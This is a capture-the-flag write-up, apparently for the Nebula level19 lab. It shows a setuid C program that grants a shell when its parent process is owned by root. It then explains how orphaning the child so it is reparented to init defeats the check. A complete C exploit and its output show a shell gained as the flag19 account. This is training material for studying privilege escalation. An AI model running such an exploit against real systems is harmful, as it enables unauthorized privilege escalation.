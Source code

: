 # level19

## Challenge info

There is a flaw in the below program in how it operates. <br>

To do this level, log in as the level19 account with the password level19. Files for this level can be found in /home/flag19.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

## Solution

This program can be exploited due to the fact that, in Linux, when the parent process terminates before the child process, the child becomes orphan and its parent becomes the user running the init process. <br> 

```
cmd: ps auxww | grep init

root         1  0.0  0.7   3196  1796 ?        Ss   07:50   0:00 /sbin/init
```

This means that the parent process must terminate before the instruction below to have its buf populated with root as its parent 
```
if(stat(buf, &statbuf) == -1)
```

Then, to do something when the verification <b> st_uid == 0</b> passes, the  program uses the <b> **argv </b> <br>

Exploit
```
void main(int argc, char ** argv, char **envp){
    pid_t pid = fork();
    if(pid==0){ //child process
        printf("Child created... lets sleep a bit\n");
        sleep(2);
        setresuid(geteuid(), geteuid(), geteuid());
        char *const args[] = {"/bin/sh", NULL };
        char program[] = "/home/flag19/flag19";
        puts("Doing execve now!!");
        execve(program, args, envp);
   }else{
       puts("parent leaving to buy cigarettes");
       exit(0);
   }
}
```

execute but hang the execution with cat otherwise it wont work (it is possible to source more arguments and execute commands, i.e: {"/bin/sh", "-c", "do something as flag19", NULL })
```
cmd: cat | ./exp

whoami && id
flag19
uid=1020(level19) gid=1020(level19) euid=980(flag19) groups=980(flag19),1020(level19)
```

## Flag
```
You have successfully executed getflag on a target account
```